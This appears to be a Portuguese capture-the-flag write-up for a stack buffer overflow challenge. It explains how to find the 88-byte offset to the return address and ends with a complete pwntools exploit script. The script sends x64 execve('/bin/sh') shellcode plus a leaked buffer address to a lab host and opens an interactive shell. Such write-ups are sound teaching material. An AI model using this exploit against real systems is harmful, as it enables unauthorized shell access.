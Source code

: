 ![alt text](/images/crow-post-pwn/desafio4Imagem6.png)

A ferramenta nos diz que a execução em pilha é permitida. Isso significa que podemos carregar bytes que correspondem a instruções na pilha e mandar o RIP apontar para lá. A forma que nós estamos acostumados a fazer é de garantir que o topo da pilha contenha nosso endereço desejado no momento em que o **RIP** aponta para a instrução retn. 

O procedimento então fica da seguinte forma: 
```
preencher o buf com instruções + padding + endereço de retn  
```


Colocando alguns A's e verificando o valor do rsp quando a instrução retn é executada, descobrimos até onde precisamos preencher. O fluxo retorna para libc_start_call_main.  
![alt text](/images/crow-post-pwn/desafio4Imagem7.png)

Se contarmos quantas células temos, veremos que temos 12 * 8 bytes para serem preenchidos. Começamos em 0x00007FFFFFFFDC80 e terminamos em 0x00007FFFFFFFDCD8. Nosso payload deve ser da forma:
```python
payload =  shellcode + b'A' * (88-len(shellcode)) + endereço
```

O que queremos executar exatamente? Bom. Podemos executar instruções arbitrárias - contanto que caibam no buf. Porque não poppar um shell? Procurando na internet encontramos um shellcode x64 linux que realiza um execve com "bin/sh". E como resolvemos o endereço? Bom. Nós recebemos o endereço na tela, basta capturamos com o pwntools. 

```python
import pwn
import time


#pwn.context.binary = binary = './pwn104-1644300377109.pwn104'
pwn.context.log_level = 'debug'

shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'


payload =  shellcode + b'A' * (88-len(shellcode))

#p = pwn.process(binary)
p = pwn.remote("10.10.225.226", 9004)



p.recvuntil(b"I'm waiting for you at ")
address = p.recvline()

time.sleep(1)

bufferAddress = pwn.p64(int(address, 16))

payload = payload + bufferAddress

p.sendline(payload)

p.interactive()
```
